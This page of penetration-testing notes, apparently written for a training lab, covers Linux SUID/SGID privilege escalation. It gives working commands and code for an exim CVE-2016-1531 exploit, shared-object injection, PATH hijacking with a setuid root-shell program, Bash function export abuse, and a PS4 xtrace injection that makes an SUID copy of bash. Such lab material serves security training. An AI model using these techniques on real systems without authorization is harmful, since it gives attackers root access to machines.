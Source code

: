 # 🦹♂ SUID

Verifier les permissions puis GTFOBins

### SUID / SGID Executables - Known Exploits

Find all the SUID/SGID executables on the Debian VM:

```bash
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

Note that /usr/sbin/exim-4.84-3 appears in the results. Try to find a known exploit for this version of exim. [Exploit-DB](https://www.exploit-db.com/), Google, and GitHub are good places to search!\
A local privilege escalation exploit matching this version of exim exactly should be available. A copy can be found on the Debian VM at **/home/user/tools/suid/exim/cve-2016-1531.sh**.\
Run the exploit script to gain a root shell:

```bash
/home/user/tools/suid/exim/cve-2016-1531.sh
```

***

### Shared Object Injection

The **/usr/local/bin/suid-so** SUID executable is vulnerable to shared object injection.\
First, execute the file and note that currently it displays a progress bar before exiting:\
`/usr/local/bin/suid-so`

Run **strace** on the file and search the output for open/access calls and for "no such file" errors:

```bash
strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
```

Note that the executable tries to load the **/home/user/.config/libcalc.so** shared object within our home directory, but it cannot be found.\
Create the **.config** directory for the libcalc.so file:\
`mkdir /home/user/.config`\
Example shared object code can be found at **/home/user/tools/suid/libcalc.c**. It simply spawns a Bash shell. Compile the code into a shared object at the location the **suid-so** executable was looking for it:\
`gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c`\
Execute the **suid-so** executable again, and note that this time, instead of a progress bar, we get a root shell.\
`/usr/local/bin/suid-so`

{% hint style="info" %}
**Remember to exit out of the root shell before continuing!**
{% endhint %}

***

***

### SUID / SGID Executables - Environment Variables

The **/usr/local/bin/suid-env** executable can be exploited due to it inheriting the user's PATH environment variable and attempting to execute programs without specifying an absolute path.\
First, execute the file and note that it seems to be trying to start the apache2 webserver:\
`/usr/local/bin/suid-env`\
Run strings on the file to look for strings of printable characters:\
`strings /usr/local/bin/suid-env`\
One line ("service apache2 start") suggests that the **service** executable is being called to start the webserver, however the full path of the executable (/usr/sbin/service) is not being used.

Compile the code located at **/home/user/tools/suid/service.c** into an executable called **service**. This code simply spawns a Bash shell:

```c
int main() {
setuid(0);
system("/bin/bash -p");
}
```

```bash
gcc -o service /home/user/tools/suid/service.c
```

Prepend the current directory (or where the new service executable is located) to the PATH variable, and run the **suid-env** executable to gain a root shell:\
`PATH=.:$PATH /usr/local/bin/suid-env`



***

### SUID / SGID Executables - Abusing Shell Features (#1)

The **/usr/local/bin/suid-env2** executable is identical to **/usr/local/bin/suid-env** except that it uses the absolute path of the service executable (/usr/sbin/service) to start the apache2 webserver.\
Verify this with strings:

```bash
strings /usr/local/bin/suid-env2
```

In Bash versions **<4.2-048** it is possible to define shell functions with names that resemble file paths, then export those functions so that they are used instead of any actual executable at that file path.\
Verify the version of Bash installed on the Debian VM is less than 4.2-048:

```bash
/bin/bash --version
```

Create a Bash function with the name "**/usr/sbin/service**" that executes a new Bash shell (using -p so permissions are preserved) and export the function:

```bash
function /usr/sbin/service { /bin/bash -p; }
export -f /usr/sbin/service
```

Run the **suid-env2** executable to gain a root shell:

```bash
/usr/local/bin/suid-env2
```

***

### SUID / SGID Executables - Abusing Shell Features (#2)

Note: This will not work on Bash versions 4.4 and above.\
When in debugging mode, Bash uses the environment variable **PS4** to display an extra prompt for debugging statements.

Run the **/usr/local/bin/suid-env2** executable with bash debugging enabled and the PS4 variable set to an embedded command which creates an SUID version of /bin/bash:

{% code overflow="wrap" lineNumbers="true" %}
```bash
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
```
{% endcode %}

Run the /tmp/rootbash executable with -p to gain a shell running with root privileges:

```bash
/tmp/rootbash -p
```
